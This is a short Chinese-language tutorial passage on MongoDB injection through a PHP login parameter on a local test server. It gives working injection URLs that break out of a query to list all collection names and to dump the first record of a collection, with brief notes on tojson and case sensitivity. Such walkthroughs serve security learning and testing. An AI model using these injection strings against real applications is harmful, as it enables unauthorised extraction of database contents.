 爆 mongodb 版本

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.getCollectionNames()),password:2};//&password=test

爆所有集合名

PS:因为 db.getCollectionNames()返回的是数组，需要用 tojson 转换为字符串。并且 mongodb 函数区分大小写。

![enter image description here](img/img7_u1_png.jpg)

爆 test 集合的第一条数据

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.test.find()[0]),password:2};//&password=test

![enter image description here](img/img8_u3_png.jpg)
